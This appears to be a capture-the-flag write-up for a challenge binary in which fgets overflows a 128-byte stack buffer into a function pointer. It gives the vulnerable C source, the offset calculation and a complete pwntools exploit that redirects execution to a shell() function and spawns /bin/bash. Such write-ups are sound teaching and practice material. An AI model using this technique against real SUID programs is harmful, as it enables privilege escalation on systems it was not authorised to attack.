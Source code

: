 # ch15

## Vulnerability summary

The program defines a local function pointer `void (*func)() = sup;` immediately **after** a 128-byte buffer `char buf[128];`. The program uses `fgets(buf, 133, stdin);` which allows writing up to **133** bytes into a 128-byte buffer — enough to overwrite the 4-byte function pointer on the stack. When `func()` is later called, the attacker controlled pointer is dereferenced and executed. Because `shell()` is a symbol in the binary, the attacker can overwrite `func` with the address of `shell()` to spawn `/bin/bash`.

This is a classic *stack buffer overflow* used to overwrite a function pointer (not a return address).

---

## Source

```c
void shell() {
    setreuid(geteuid(), geteuid());
    system("/bin/bash");
}

void sup() {
    printf("Hey dude ! Waaaaazzaaaaaaaa ?!\n");
}

void main() {
    int var;
    void (*func)() = sup;
    char buf[128];
    fgets(buf,133,stdin);
    func();
}
```

Important facts from binary analysis:

* 32-bit little-endian
* `buf` is 128 bytes
* `func` is directly after `buf` on the stack (4 bytes)
* `fgets` can write 133 bytes → 5 bytes past buffer (enough to overwrite `func`)
* `shell()` is present as a symbol (static address because PIE = No)

---

## Exploit strategy

1. Determine the offset from the start of `buf` to the saved function pointer `func`.
2. Create an input consisting of `offset` filler bytes + 4-byte little-endian address of `shell()` + newline.
3. Send it to the program. When `func()` is called, it will jump to `shell()` and spawn a `/bin/bash`.
4. Use `p.interactive()` to interact with the shell.

Because `shell()` calls `setreuid(geteuid(), geteuid())` first, if the binary is SUID this may yield an elevated shell.

---

## Finding the offset

You already did this with a crash in GDB that showed the overwritten instruction pointer value `0x62616168`. Using pwntools’ `cyclic_find`:

```bash
python3 -c "from pwn import cyclic_find; print(cyclic_find(0x62616168))"
# prints: 128
```

So the function pointer is at offset **128** from the start of `buf` — exactly after the 128-byte buffer.


---

## Exploit

Saved as `exploit.py` (executable with `python3 exploit.py`):

```py
#!/usr/bin/env python3
from pwn import *

context.binary = ELF('ch15')
context.log_level = 'info'   # or 'debug' for more output

# start the process
p = process(context.binary.path)

# enable GDB with: python3 exploit.py GDB
if args.GDB:
    gdb.attach(p, gdbscript='break main\ncontinue\n')

offset = 128
target = context.binary.symbols['shell']

payload = b'A' * offset      # fill buffer up to function pointer
payload += p32(target)       # overwrite func with address of shell()
payload += b'\n'             # fgets/line termination

p.sendline(payload)
p.interactive()
```

**Notes**

* `p32()` packs the 32-bit address in little-endian (required for i386).
* If the program prints any prompt before reading, you might need `p.recvuntil(b'...')` before `p.sendline(...)`. For this program `fgets` reads immediately so simple send is fine.
* Run with `GDB` to watch execution: `python3 exploit.py GDB`.

---


![result](./img/result.png)
